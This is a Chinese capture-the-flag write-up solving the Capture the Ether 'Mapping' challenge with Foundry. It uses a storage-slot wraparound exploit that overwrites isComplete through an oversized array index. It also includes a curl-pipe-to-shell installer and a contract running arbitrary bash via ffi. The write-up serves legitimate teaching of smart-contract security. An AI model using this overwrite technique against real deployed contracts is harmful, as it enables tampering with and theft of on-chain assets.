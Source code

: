 # Mapping

## 题目描述

[原题链接](https://capturetheether.com/challenges/math/mapping/)

原题目要求 MappingChallenge 合约的 isComplete 变量设置成 true。

## 运行

**安装 Rust**

```sh
$ curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh
```
并根据提示继续操作。

**安装 svm**

[svm-rs](https://github.com/roynalnaruto/svm-rs) is Solidity Compiler Version Manager

```sh
$ cargo install svm-rs
```

**设置 solc 版本**
```sh
$ svm install 0.4.26

$ svm use 0.4.26

$ solc --version
```


**安装 Foundry**

根据 [Foundry 官方文档](https://getfoundry.sh/)配置好运行环境。

**运行测试**

```sh
$ cd WTF-CTF

$ forge test -C src/Capture_the_Ether/Math/Mapping --ffi -vvv
```

## 功能简述

在原题 `^0.4.21` 版本下，array 的成员 length 是可以修改的，在 `0.6.0` 版本之后，length 是只读的，无法修改。并且 forge-std/Test.sol 要求 solidity 版本大于等于 0.6.2: `pragma solidity >=0.6.2 <0.9.0`。也就是说，我们测试文件 `MappingChallenge.t.sol` 是无法 import `MappingChallenge.sol`。我们需要使用 0.4.26 版本的编译器单独编译并且部署 `MappingChallenge.sol`

为了能够复现这个 Challenge，我们需要一个 `BytesDeployer.sol`。
```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.19;

import "forge-std/Test.sol";

contract Deployer is Test {
    ///@notice Compiles a contract before 0.6.0 and returns the address that the contract was deployeod to
    ///@notice If deployment fails, an error will be thrown
    ///@param path - The path of the contract. For example, the file name for "MappingChallenge.sol" is
    /// "src/Capture_the_Ether/Math/Mapping/MappingChallenge.sol"
    ///@return deployedAddress - The address that the contract was deployed to
    function deployContract(string memory path) public returns (address) {
        string memory bashCommand =
            string.concat('cast abi-encode "f(bytes)" $(solc ', string.concat(path, " --bin --optimize | tail -1)"));

        string[] memory inputs = new string[](3);
        inputs[0] = "bash";
        inputs[1] = "-c";
        inputs[2] = bashCommand;

        bytes memory bytecode = abi.decode(vm.ffi(inputs), (bytes));

        ///@notice deploy the bytecode with the create instruction
        address deployedAddress;
        assembly {
            deployedAddress := create(0, add(bytecode, 0x20), mload(bytecode))
        }

        ///@notice check that the deployment was successful
        require(deployedAddress != address(0), "YulDeployer could not deploy contract");

        ///@notice return the address that the contract was deployed to
        return deployedAddress;
    }
}
```

这个合约使用了 forge ffi 作弊码，它允许开发者执行任意 shell 命令并捕获输出。我们需要使用它来获取 `MappingChallenge.sol` 的 bytescode。合约里面的命令相当于在 terminal 执行 `cast abi-encode "f(bytes)" $(solc ./src/Capture_the_Ether/Math/Mapping/MappingChallenge.sol --bin --optimize | tail -1)` 然后使用 assembly 部署合约，并返回新合约地址。

然后在 MappingChallenge.t.sol 合约中 setUp 函数中利用 Deployer 部署好 MappingChallenge。

到现在，我们可以来解决 MappingChallenge。MappingChallenge 合约里面有两个 storage 变量，一个是 isComplete，存储在 slot 0；一个是 map， 存储在 slot 1。怎样通过修改 map 的值来影响 isComplete 的值？

下面科普一下以太坊的 World state，简单来说，所有的 Address 都有 Account state，由 nonce，balance，storage，code 组成，对于 EOA，storage 和 code 都是默认为空，对于 Contract account，code 用于存储合约代码，storage 用于存储合约里面的状态变量。

![](img/evm_account.png)

storage 是由 key-value 对组成，空间大小为 2^256，一般情况下是够用的：

![](img/account_storage.png)


MappingChallenge 里面的[存储布局](https://docs.soliditylang.org/en/develop/internals/layout_in_storage.html#mappings-and-dynamic-arrays)：

```sh
slot 0            : isComplete
slot 1            : map.length
...
slot keccak(1)    : map[0]
slot keccak(1) + 1: map[1]
slot keccak(1) + 2: map[2]
slot keccak(1) + 3: map[3]
slot keccak(1) + 4: map[4]
// ...
```

因此我们需要找到 map[x]，它的存储 slot 为 slot 0。
即：

$$Keccak(1) + x \equiv 0 \ (mod \ 2^{256})$$ 

$$x \equiv 2^{256} - Keccak(1) \ (mod \ 2^{256})$$

而 `UINT256_MAX + 1 = 2^256`，因此 `uint256 index = UINT256_MAX - uint256(keccak256(abi.encode(1))) + 1`

我们只需要将 map[index] 设置为非 0 值即可：

```solidity
        uint256 index = UINT256_MAX - uint256(keccak256(abi.encode(1))) + 1;
        bytes memory setCallData = abi.encodeWithSignature("set(uint256,uint256)", index, 1);

        (bool success,) = address(mappingChallenge).call{gas: 100000, value: 0}(setCallData);
        assertTrue(success);

        emit log_named_string("after hack, isComplete", mappingChallenge.isComplete() ? "true" : "false");

        assertTrue(mappingChallenge.isComplete());
```
